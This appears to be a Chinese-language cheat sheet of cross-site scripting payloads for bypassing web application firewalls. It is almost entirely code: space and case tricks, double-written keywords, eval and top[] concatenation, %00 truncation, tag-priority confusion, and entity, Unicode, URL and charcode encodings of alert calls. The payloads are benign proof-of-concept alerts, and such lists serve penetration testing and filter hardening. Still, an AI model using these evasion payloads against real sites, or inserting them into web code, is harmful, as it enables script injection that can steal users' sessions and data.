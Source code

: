 **过滤空格,用/代替空格**
```html
<img/src="x"/onerror=alert("xss");>
```

**过滤关键字,大小写绕过**
```html
<ImG sRc=x onerRor=alert("xss");>
<scRiPt>alert(1);</scrIPt>
```

**双写关键字**
```html
有些 waf 可能会只替换一次且是替换为空,这种情况下我们可以考虑双写关键字绕过
<imimgg srsrcc=x onerror=alert("xss");>
```

**替换绕过**
过滤 alert 用 prompt,confirm,top['alert'](1) 代替绕过
过滤 () 用 ``代替绕过
过滤空格 用 %0a(换行符),%0d(回车符),/**/ 代替绕过
小写转大写情况下 字符 ſ 大写后为 S(ſ 不等于 s)

**利用 eval**
```html
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```

**利用 top**
```html
<script>top["al"+"ert"](`xss`);</script>
```

**%00截断绕过**
```html
<a href=javascr%00ipt:alert(1)>xss</a>
```

**其它字符混淆**

有的 waf 可能是用正则表达式去检测是否有 xss 攻击,如果我们能 fuzz 出正则的规则,则我们就可以使用其它字符去混淆我们注入的代码了,举几个简单的例子

可利用注释、标签的优先级等
```html
<<script>alert("xss");//<</script>
<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为 title 标签的优先级比 img 的高,所以会先闭合 title,从而导致前面的 img 标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

**编码绕过**
```html
实体编码
javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制

Unicode编码绕过
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">

url编码绕过
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii码绕过
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

```